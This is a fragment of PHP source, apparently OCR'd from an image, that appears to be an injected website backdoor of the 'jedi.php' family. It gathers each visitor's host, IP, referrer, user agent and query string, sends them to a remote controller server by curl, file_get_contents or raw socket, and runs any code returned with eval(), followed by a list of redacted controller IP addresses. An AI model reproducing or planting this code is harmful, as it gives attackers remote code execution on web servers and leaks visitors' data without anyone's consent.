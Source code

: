 				$qs = urlencode($_SERVER["QUERY_STRING"]); 
			} 
			else 
			{ 
				$qs = ""; 
			} 
			$url_0 = "http://" . $pa; 
			$url_1 = "/jedi.php?version=0993&mother=" .$mama . "&file=" . $file . "&host=" . $host . "&ip=" . $ip . "&ref=" . $ref . "&ua=" .$ua . "&qs=" . $qs; 
			$try = true; 
			if( function_exists("curl_init") ) 
			{ 
				$ch = curl_init($url_0 . $url_1);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);curl_setopt($ch, CURLOPT_TIMEOUT, 3); 
				$ult = trim(curl_exec($ch)); 
				$try = false; 
			} 
			if ((ini_get("allow_url_fopen")) && $try) 
			{ 
				$ult = trim(@file_get_contents($url_0 . $url_1)); 
				$try = false; 
			} 
			if($try) 
			{ 
				$fp = fsockopen($pa, 80, $errno, $errstr, 30); 
				if ($fp) 
				{ 
					$out = "GET $url_1 HTTP/1.0\r\n"; 
					$out .= "Host: $pa\r\n"; 
					$out .= "Connection: Close\r\n\r\n";fwrite($fp, $out); 
					$ret = ""; 
					while (!feof($fp)) 
					{ 
						$ret  .=  fgets($fp, 128); 
					} 
					fclose($fp); 
					$ult = trim(substr($ret, strpos($ret, "\r\n\r\n") + 4)); 
				} 
			}  
			if (strpos($ult,"eval") !== false) 
			{ 
				$z = stripslashes(str_replace("eval","",$ult)); 
				eval($z); 
				exit(); 
			} 
			if (strpos($ult,"ebna") !== false) 
			{ 
				$_SERVER["good"] = str_replace("ebna","",$ult); 
				return true; 
			} 
			else {return false;} 
		} 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 
		$father2[] = "REDACTED_IP"; 